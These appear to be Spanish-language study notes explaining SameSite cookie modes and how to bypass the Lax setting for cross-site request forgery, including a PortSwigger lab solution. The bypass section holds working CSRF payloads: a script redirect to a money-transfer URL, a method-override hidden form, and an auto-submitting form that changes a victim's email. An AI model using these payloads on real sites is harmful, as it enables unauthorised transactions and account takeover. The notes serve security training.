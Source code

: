 Ninguna de estas restricciones garantiza total inmunidad.

Si no hay una restricción asociada a la cookie chrome utiliza Lax por defecto, lo que quiere decir que solo se enviara la cookie si cumple con un criterio.

### Strict

El sitio de la solicitud debe coincidir con el sitio que se muestra actualmente en la barra URL del navegador si no, la cookie no se va a enviar lo que quiere decir que la cookie no se envía entre sitios diferentes.

### Lax

Para que se envíe la cookie la solicitud debe cumplir los siguiente

- Utiliza método GET
- La solicitud se debe realizar por parte de un usuario(por ejemplo si la realiza un bot no se envia) como al hacer clic en un link

### None

La cookie se envía en todas las solicitudes que se hagan.

Si la cookie es configurada con el valor None se le debe añadir también el valor secure para que solo se envíe en conexiones https.

## Lax bypass

Provocando una petición Get desde el navegador de la victima se puede llevar a cabo un csrf

```jsx
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

Incluso si no se acepta el método GET algunos frameworks permiten modificar el método de la siguiente manera con el valor(_method)

```jsx
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```

### Solución laboratorio Bypassing SameSite Lax restrictions using GET requests

Laboratorio [aqui](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override).

```jsx
<html>
    <body>
            <form action="https://URL-VULNERABLE/my-account/change-email" method="GET" >
            <input type="hidden" name="_method" value="POST">
            <input type="hidden" name="email" value="antu97@test.com" />
        <script>
      document.forms[0].submit();
    </script>
    </body>
</html>
```

